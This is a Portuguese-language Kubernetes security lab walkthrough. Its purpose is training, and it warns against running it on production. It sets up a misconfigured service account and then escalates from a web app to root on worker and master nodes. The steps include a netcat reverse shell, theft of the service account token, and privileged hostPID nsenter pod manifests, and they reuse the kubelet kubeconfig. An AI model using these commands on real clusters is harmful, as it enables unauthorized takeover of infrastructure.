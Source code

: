 # Kubernetes é seguro por default ou à prova de má configuração?

# Lab + explicação:

Para montar nosso lab vamos precisar de um cluster kubernetes, pode ser até no kind ou minikube.

**Não executar esse lab em um cluster produtivo** 

Primeiro vamos criar nosso namespace, pod, service account e roles:

```
kubectl create ns production

kubectl create sa web-app-sa -n production

kubectl create role web-app-role -n production --verb=get,list,create --resource=pods,pods/exec

kubectl create rolebinding binding-role-app --serviceaccount=production:web-app-sa --role=web-app-role -n production

kubectl run web-app --image=p0ssuidao/vulne-pod-lab:01 --serviceaccount=web-app-sa -n production

kubectl expose pod -n production web-app --port=8080 --target-port=8080 --type=NodePort --name=web-app-role

```

```
kubectl get no -o wide 
kubectl get svc -n production 
```
Agora basta acessar no seu navegador IP do node + Node port

User foo 
Pass bar

Agora vamos abrir a porta 32000 para receber a conexão:
```
sudo nc  -l 32000
```

Executar no terminal remoto para ganhar acesso a shell:
```
nc -e /bin/bash "IP da sua maquina" 32000
```

Primeiro identificarmos com qual usuário estamos logados:
```
id
```
A aplicação está rodando com o usuário appuser, então vamos ver quais processos estão em execução.

```
ps aux
```

Existe um número muito baixo de processos. Ter poucos processos é o primeiro indicativo que a aplicação é em um container. Por default um container roda com o usuário root mas isso pode ser alterado.
Levantaremos informações sobre o release do S.O.
```
uname -a ; cat /etc/*-release
```

Aqui há informações como a linha da distribuição GNU/Linux e versão do Kernel. Com isso já pode se iniciar a busca por exploits para a versão de kernel e baseados na distro.
Continuando a busca, listaremos as variáveis de ambiente.

```
env
```

Vamos continuar o reconhecimento para termos certeza que estamos rodando em um container. Para isso vamos utilizar a ferramenta “amicontained”, pois com ela conseguimos uma serie de informações como:

- Container Runtime.
- Existência de namespace.
- Capabilities.
- Syscalls liberadas.

```
cd /tmp; curl -fSL "https://github.com/genuinetools/amicontained/releases/download/v0.4.9/amicontained-linux-amd64" -o "amicontained" \
 && chmod a+x "amicontained" \
 && ./amicontained
```

Todo pod, deploy e rs possui uma serviceaccount e por padrão são executados com a conta default. Uma serviceaccount fornece uma identidade para processos executados em um pod e nela são atrelado as rules de permissão.
As chaves e certificados ficam em um volume montado no pod.

```
cd /var/run/secrets/kubernetes.io/serviceaccount
```

Primeiro vamos ver a versão do cluster e se conseguimos interagir com a API.
```
curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version
```

Já que conseguimos acesso a API com esse token vamos tentar listar alguns pods, de inicio vamos tentar listar no namespace em que estamos:
```
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/api --header "Authorization: Bearer $TOKEN" --insecure

curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/api/v1/namespaces/$NS/pods/ --header "Authorization: Bearer $TOKEN" --insecure
```
Conseguimos listar os pods e isso é muito interessante. Para facilitar um pouco as coisas vamos baixar o kubectl para interagir com o cluster.
```
cd /tmp ; curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.18.0/bin/linux/amd64/kubectl ; chmod +x ./kubectl
```
Listaremos os pods com o kubectl.
```
./kubectl get pod
```
Para testar nossos acessos vamos utilizar o "kubectl auth can-i"
```
./kubectl auth can-i --list

./kubectl auth can-i create pods
```

Agora vamos tentar escalar nosso privilegio sem utilizar nenhum exploit apenas conhecimento da ferramenta.

```
cd /tmp; cat > root-shell.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: root-shell
  name: root-shell
spec:
  containers:
  - command:
    - nsenter
    - --mount=/proc/1/ns/mnt
    - --
    - /bin/bash
    image: alpine
    imagePullPolicy: IfNotPresent
    name: "root-shell"
    securityContext:
      privileged: true
    stdin: true
    tty: true
  dnsPolicy: ClusterFirst
  hostPID: true
EOF
./kubectl apply -f root-shell.yml
sleep 10
./kubectl get pods
sleep 10
./kubectl exec -it root-shell -- bash

```
Conseguimos acesso uma máquina !  

Verificando os acessos: 

```
id

ps aux

docker ps

cat /etc/hostname

```
Nosso acesso é a um worker mas queremos chegar nos master, para isso será necessário informações sobre os demais nodes.

Como vimos nossa conta não possui permissão para listar os nodes, então vamos procurar um conta que consiga listar os nodes.
Lembrando dos componentes que fazem parte do node o kubelet possui permissão para verificar os nós ativos, vamos tentar utilizar sua configuração de autenticação para listarmos os nodes:

Vamos pegar suas config com:

```
systemctl status kubelet
```

Com a config do kubelet tentaremos listar os nodes usando o parametro --kubeconfig:

```
kubectl get no --kubeconfig=/etc/kubernetes/kubelet.conf
```

Conseguimos ! 

Agora vamos forçar o scheduler nos agendar no node master.
Mas primeiro precisamos voltar para nosso container com permissão de criação de pods.

```
exit
```

- **Nome do node Master** | Substituir pelo nome do seu nó em yml abaixo.

```
cd /tmp; cat > master-root-shell.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: master-root-shell
  name: master-root-shell
spec:
  containers:
  - command:
    - nsenter
    - --mount=/proc/1/ns/mnt
    - --
    - /bin/bash
    image: alpine
    imagePullPolicy: IfNotPresent
    name: "master-root-shell"
    securityContext:
      privileged: true
    stdin: true
    tty: true
  dnsPolicy: ClusterFirst
  hostPID: true
  nodeName: *Nome do node Master* 
  tolerations:
  - effect: NoExecute
    operator: Exists
EOF
./kubectl apply -f master-root-shell.yml
sleep 10
./kubectl get pods
sleep 10
./kubectl exec -it master-root-shell -- bash
```

Conseguimos acesso ao master =)
```
id

ps aux

docker ps

kubectl get no

kubectl auth can-i --list
``` 
